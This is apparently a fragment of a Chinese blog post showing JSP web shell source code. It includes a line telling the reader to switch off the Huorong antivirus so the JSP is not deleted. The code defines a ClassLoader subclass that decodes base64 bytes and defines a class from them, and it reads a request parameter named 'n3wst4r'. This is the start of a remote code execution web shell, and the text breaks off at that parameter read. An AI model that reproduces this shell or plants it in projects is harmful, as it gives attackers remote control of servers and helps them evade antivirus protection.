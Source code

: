 [![image-20231106210841857](assets/3014109-20231106224657677-688835594.png)](https://img2023.cnblogs.com/blog/3014109/202311/3014109-20231106224657677-688835594.png)

把火绒关了，不然jsp直接被杀了



```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("n3wst4r");
```